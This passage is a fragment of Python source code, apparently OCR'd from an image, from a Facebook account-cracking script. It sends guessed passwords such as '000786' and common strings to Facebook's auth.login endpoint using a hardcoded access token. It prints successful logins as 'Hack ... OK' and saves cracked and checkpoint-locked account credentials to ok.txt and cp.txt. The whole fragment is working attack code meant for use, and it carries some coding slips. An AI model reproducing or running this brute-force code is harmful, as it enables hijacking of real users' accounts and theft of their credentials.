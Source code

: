 		                                                        					ok=open("ok.txt","a")
		                                                        					ok.write(uid+" | "+pass9+"\n")
		                                                        					cp.close()
		                                                        					cps.append(uid)
		                                                        				else:
		                                                        					pass10="000786"
		                                                        					q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass10 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                                        					d=json.loads(q)
		                                                        					if 'www.facebook.com' in d['error_msg']:
		                                                        						print("Error "+uid+" | "+pass10+" --> CP")
		                                                        						cp=open("cp.txt","a")
		                                                        						cp.write(uid+" | "+pass10+"\n")
		                                                        						cp.close()
		                                                        						cps.append(uid)
		                                                        					else:
		                                                        						if 'access_token' in d:
		                                                        							print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass10+" --> OK\x1b[1;0m")
		                                                        							ok=open("ok.txt","a")
		                                                        							ok.write(uid+" | "+pass10+"\n")
		                                                        							cp.close()
		                                                        							cps.append(uid)
		                                                        						else:
		                                                        							pass11="786000, 786123, 123786, 234567, Mental_@, pakistan123, iloveu, iloveyou, ilovepak, 102030, a1b2c3"
		                                                        							q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=en_US&password=" + pass11 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6", headers=header).text
		                                                        							d=json.loads(q)
		                                                        							if  'www.facebook.com' in d['error_msg']:
		                                                        								print("Error "+uid+" | "+pass11+" --> CP")
		                                                        								cp=open("cp.txt","a")
		                                                        								cp.write(uid+" | "+pass11+"\n")
		                                                        								cp.close()
		                                                        								cps.append(uid)
		                                                        							else:
		                                                        								if 'access_token' in d:
		                                                        									print("\x1b[1;92mHack \033[1;30m"+uid+" | "+pass11+" --> OK\x1b[1;0m")
		                                                        									ok=open("ok.txt","a")
		                                                        									ok.write(uid+" | "+pass11+"\n")
		                                                        									cp.close()
		                                                        									cps.append(uid)





															
		except:
			pass
		